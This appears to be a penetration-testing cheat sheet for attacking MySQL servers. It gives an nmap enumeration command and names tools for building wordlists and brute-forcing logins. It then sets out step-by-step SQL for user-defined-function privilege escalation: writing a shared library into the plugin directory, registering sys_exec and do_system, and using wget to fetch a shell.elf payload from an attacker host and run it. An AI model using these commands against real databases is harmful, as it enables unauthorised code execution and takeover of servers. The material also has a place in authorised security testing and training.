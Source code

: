 
**General Information**
> `MySQL` Hash File - `/var/lib/mysql/mysql/user.MYD`


**Enumeration**

Enumerate with `nmap nse` to find additional information.

```bash
sudo nmap -n -Pn -sT -T4 -p T:3306 --script "mysql-empty-password,mysql-enum,mysql-info" -sV -oA recon/nmap-${IP}-tcp-mysql ${IP}
```

```text

```


**Brute-Force**

Check possibilities for generating custom wordlist using,
- `cewl`
- `wordhound`

Check for `brute-force` possibilities using,
- `Hydra`


**UDF**

If having `root` access on `mysql`, check for possibility of `UDF`.

```sql
SHOW VARIABLES LIKE "secure_file_priv";

@@plugin_dir;
SHOW VARIABLES LIKE 'plugin_dir';

SHOW Grants;
```


```bash
mysql -h 127.0.0.1 -P 13306 -uroot -p
mysql -u root -p
```

```sql
SHOW VARIABLES LIKE 'plugin_dir';
set @shell = 0x
select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
create function sys_exec returns int soname 'udf_sys_exec.so';
select * from mysql.func where name='sys_exec';
select sys_exec('wget http://<ip>/shell.elf');
select sys_exec('chmod +x ./shell.elf');
select sys_exec('./shell.elf');
```

```sql
use mysql;
create table foo(line blob);
SHOW VARIABLES LIKE 'plugin_dir';
insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');

\! sh
cat /tmp/out
```
